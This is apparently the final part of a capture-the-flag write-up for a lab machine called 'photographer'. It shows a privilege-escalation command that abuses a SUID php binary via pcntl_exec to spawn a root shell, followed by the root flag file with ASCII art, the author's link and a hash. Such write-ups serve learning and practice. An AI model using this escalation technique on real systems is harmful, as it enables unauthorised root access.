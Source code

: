 ![gtfo](/assets/img/photographer/gtfo.png)
```
www-data@photographer:/tmp$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
#
```

# Root Flag
```
# cat proof.txt
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`                     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-                       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-                         
                           -/+/-:-/y+/d:yh-o:+--/+/:`                           
                              `-///////////////:`                               
                                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e
```
